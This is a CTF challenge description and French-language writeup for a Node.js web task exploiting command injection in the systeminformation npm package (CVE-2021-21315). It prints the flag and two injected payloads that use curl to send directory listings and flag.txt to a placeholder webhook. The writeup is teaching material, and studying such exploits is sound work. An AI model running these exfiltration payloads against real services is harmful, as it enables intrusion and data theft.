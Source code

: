 # Quotes-A-Day 2 (API2)

> Web <br>
> Author: @Strix

## Prompt

OK, we've patched the previous vulnerability and finally implemented our new system health check feature. Users can now
query our **system information** to check if the service is available or not and make sure to get their daily quote!

## Flag

FLAG: `FLAG-0WASP_T0P_9_PATCH_Y0UR_NPM_PACKAG3S`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi ici est une vulnérabilité d'injection de commande dans un package très populaire de nodejs appelée [systeminformation](https://www.npmjs.com/package/systeminformation).
Le package a une vulnérabilité dans 4 fonctions dans lesquels un utilisateur fournit du input non filtré/_santized_.

L'injection de commande se produit ici par l'utilisation d'un tableau plutôt que d'une chaîne, en raison d'un manque de filtrage dans l'une des fonctions du package. (CVE-2021-21315)

Le endpoint `GET /systemInfo` requiert un paramètre `service`.

`GET /systemInfo?service=mongod` renverrait l'état actuel du processus mongod, mais

`/systemInfo?service[]=$(echo 'command injection')` injecterait la commande, puisque `systeminformation.services(<USERINPUT>)` ne _sanitize_ pas les tableaux/listes/arrays, mais uniquement les chaînes de caractères.

L'utilisateur n'a donc qu'à parcourir le répertoire pour trouver le flag.txt. 

```curl
GET /systemInfo?service[]=$(ls -la > out.txt && curl --form "data=@out.txt" <SERVER/WEBHOOK>)
```

```curl
GET /systemInfo?service[]=$(curl --form "data=@flag.txt" <WEBHOOK>)
```

